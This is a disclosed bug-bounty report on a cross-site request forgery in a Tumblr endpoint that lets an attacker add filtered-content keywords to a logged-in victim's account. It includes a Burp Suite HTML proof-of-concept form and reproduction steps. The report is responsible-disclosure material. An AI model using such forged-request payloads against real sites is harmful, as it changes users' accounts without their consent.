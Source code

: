 # [tumblr.com] CSRF in /svc/user/filtered_content

## Report Details
- **Report ID**: 1010806
- **URL**: https://hackerone.com/reports/1010806
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-10-17T22:50:21.953Z
- **Disclosed**: 2020-12-26T16:42:02.330Z

## Reporter
- **Username**: fuzzme
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
Hello, I have found a Cross-site request forgery in ``https://tumblr.com/svc/user/filtered_content``` allow an attacker to add filtered content to a target/victim account.

The  custom HTTP Header ```X-tumblr-form-key ``` used for the protection CSRF is not validate.

## Steps To Reproduce:
1) Logging into your Tumblr account in your current navigator .
2) Open the poc.html or manually copy this following code in an  html file and open this in your current navigator and click to ```Submit request```.
```html

<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="https://www.tumblr.com/svc/user/filtered_content" method="POST">

      <input type="hidden" name="filtered&#95;content" value="pwd777" />

      <input type="submit" value="Submit request" />

    </form>

  </body>

</html>
```
3) Go to https://www.tumblr.com/settings/account and you will see the keyword ```pwd777``` in your filtered content .

/!\ You can't add a same filtered content this will generate a 400 HTTP Response code /!\

You can follow me in the video POC.

Thanks, good bye.

## Impact

Allow a attacker add filtered content to a target/victim account.

## Attachments
- poc.html
- csrf.mp4
